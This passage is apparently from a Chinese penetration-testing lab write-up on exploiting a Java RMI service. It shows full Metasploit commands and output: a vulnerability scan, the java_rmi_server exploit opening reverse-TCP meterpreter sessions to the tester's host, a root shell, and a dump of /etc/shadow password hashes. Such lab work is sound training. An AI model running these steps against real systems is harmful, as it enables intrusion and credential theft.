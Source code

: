 ![4.3.2-攻击](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081626811.png)

#### 4.1.4 `java-rmi`

- 漏洞扫描：

```shell
msf6 > use auxiliary/scanner/misc/java_rmi_server
msf6 auxiliary(scanner/misc/java_rmi_server) > set RHOSTS 192.168.43.38
RHOSTS => 192.168.43.38
msf6 auxiliary(scanner/misc/java_rmi_server) > run

[+] 192.168.43.38:1099    - 192.168.43.38:1099 Java RMI Endpoint Detected: Class Loader Enabled
[*] 192.168.43.38:1099    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

![4.4.1](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081828724.png)

- 漏洞利用：

```
[6:23:26] xubiang:EXP1 $ msfconsole 

...

msf6 > use exploit/multi/misc/java_rmi_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/misc/java_rmi_server) > set RHOSTS 192.168.43.38
RHOSTS => 192.168.43.38
msf6 exploit(multi/misc/java_rmi_server) > set HTTPDELAY 20
HTTPDELAY => 20
msf6 exploit(multi/misc/java_rmi_server) > exploit 

[*] Started reverse TCP handler on 192.168.43.98:4444 
[*] 192.168.43.38:1099 - Using URL: http://0.0.0.0:8080/CuRwGg0
[*] 192.168.43.38:1099 - Local IP: http://192.168.43.98:8080/CuRwGg0
[*] 192.168.43.38:1099 - Server started.
[*] 192.168.43.38:1099 - Sending RMI Header...
[*] 192.168.43.38:1099 - Sending RMI Call...
[*] 192.168.43.38:1099 - Replied to request for payload JAR
[*] Sending stage (58053 bytes) to 192.168.43.38
[*] Sending stage (58053 bytes) to 192.168.43.38
[*] Meterpreter session 1 opened (192.168.43.98:4444 -> 192.168.43.38:51999 ) at 2022-05-08 06:25:04 -0400
[*] Meterpreter session 2 opened (192.168.43.98:4444 -> 192.168.43.38:47399 ) at 2022-05-08 06:25:04 -0400
[*] 192.168.43.38:1099 - Server stopped.

meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
cat /etc/shadow
root:$1$7DSzfpME$3a45316tWZF9TZWi48eub/:19107:0:99999:7:::
...
msfadmin:$1$FKo1UCia$KxgF2WmQNsKY2lC3nPp4n/:19107:0:99999:7:::
...
```
